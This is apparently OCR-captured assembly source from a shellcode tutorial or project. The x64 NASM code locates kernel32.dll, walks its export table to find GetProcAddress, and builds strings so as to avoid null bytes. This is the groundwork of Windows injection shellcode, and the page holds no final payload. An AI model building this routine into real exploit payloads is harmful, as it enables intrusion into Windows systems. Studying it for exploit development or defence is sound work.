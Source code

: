 ```nasm
mov rbx, [rsi+0x30]               ; kernel32.dll base address
mov r8, rbx                       ; mov kernel32.dll base addr into r8
xor rcx, rcx                      ; Avoid null bytes from mov edx,[rbx+0x88] by using rcx register to add
add cx, 0x88ff
shr rcx, 0x8                      ; RCX = 0x88ff --> 0x88
mov edx, [rbx+rcx]                ; EDX = [&NewEXEHeader + Offset RVA ExportTable] = RVA ExportTable
add rdx, r8                       ; RDX = kernel32.dll + RVA ExportTable = ExportTable Address
mov r10d, [rdx+0x14]              ; Number of functions
xor r11, r11                      ; Zero R11 before use
mov r11d, [rdx+0x20]              ; AddressOfNames RVA
add r11, r8                       ; AddressOfNames VMA
mov rcx, r10                      ; store number of functions for future use
```

***Dynamically Locating GetProcAddress***
-
```nasm
mov rax, 0x9090737365726464       ; 'ddress'
shl rax, 0x10                     ; 7373657264640000
shr rax, 0x10                     ; 0000737365726464 terminate our string w/ no nulls present in our shellcode!
push rax
mov rax, 0x41636F7250746547       ; GetProcA 
push rax
mov rax, rsp	
kernel32findfunction:             ; Loop over Export Address Table to find WinApi names
    jecxz FunctionNameNotFound    ; Loop around this function until we find GetProcAddress
    xor ebx,ebx                   ; Zero EBX for use
    mov ebx, [r11+rcx*4]          ; EBX = RVA for first AddressOfName
    add rbx, r8                   ; RBX = Function name VMA / add kernel32 base address to RVA and get WinApi name
    dec rcx                       ; Decrement our loop by one, this goes from Z to A
    mov r9, qword [rax]           ; R9 = "GetProcA"
    cmp [rbx], r9                 ; Compare first 8 bytes
    jnz kernel32findfunction      ; If not equal, continue loop
    mov r9d, dword [rax + 8]      ; R9 = "ddress"
    cmp [rbx + 8], r9d            ; Compare remaining part
    jz FunctionNameFound          ; If match, function found
	jnz kernel32findfunction
FunctionNameNotFound:
    int3
FunctionNameFound:
    push rcx
    pop r15                       ; getprocaddress position
    inc r15   
    xor r11, r11
    mov r11d, [rdx+0x1c]          ; AddressOfFunctions RVA
    add r11, r8                   ; AddressOfFunctions VMA in R11. Kernel32+RVA for addressoffunctions
    mov eax, [r11+r15*4]          ; Get the function RVA.
    add rax, r8                   ; Found the GetProcAddress WinApi!!!
    push rax                      ; push GetProcAddress temporarily to be used by next segment
```
